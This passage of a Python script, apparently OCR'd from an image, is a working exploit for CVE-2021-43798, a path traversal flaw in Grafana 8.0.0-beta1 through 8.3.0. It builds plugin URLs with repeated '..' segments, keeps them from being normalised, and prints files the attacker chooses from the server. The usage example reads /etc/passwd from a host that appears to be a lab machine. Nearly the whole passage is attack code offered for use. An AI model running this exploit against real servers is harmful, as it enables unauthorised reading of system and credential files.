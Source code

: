 ```python
	"state-timeline",
	"status-history",
	"table",
	"table-old",
	"tempo",
	"testdata",
	"text",
	"timeseries",
	"welcome",
	"zipkin"
]

## Functions
# make request to grafana
def make_request(args):
	try:
		with Session() as session:

			vulnerable_path = args.target + '/public/plugins/' + choice(plugins) + '/..'*10 + args.file
			
			request = Request('GET', vulnerable_path)

			prepare_req = session.prepare_request(request)
			prepare_req.url = vulnerable_path

			response = session.send(prepare_req)

			if 'Plugin not found' in response.text:
				sys.exit('\n[!] File not found')
			else:
				if response.status_code == 200:
					print('\n{}\n'.format(response.text))

	except Exception as error:
		sys.exit('\n[X] Error: %s' % error)


## Main flow
if __name__ == '__main__':
	parser = argparse.ArgumentParser(
		description="Vulnerable path traversal in Grafana for version v8.0.0-beta1 to v8.3.0",
		formatter_class=argparse.RawDescriptionHelpFormatter,
		epilog="""Example:
		CVE-2021-43798.py -t http://10.10.11.183:3000 -f /etc/passwd
		""")

	parser.add_argument('-t', '--target', required=True, help='Grafana host')
	parser.add_argument('-f', '--file', required=True, help='File name to read')

	args = parser.parse_args()

	make_request(args)
```
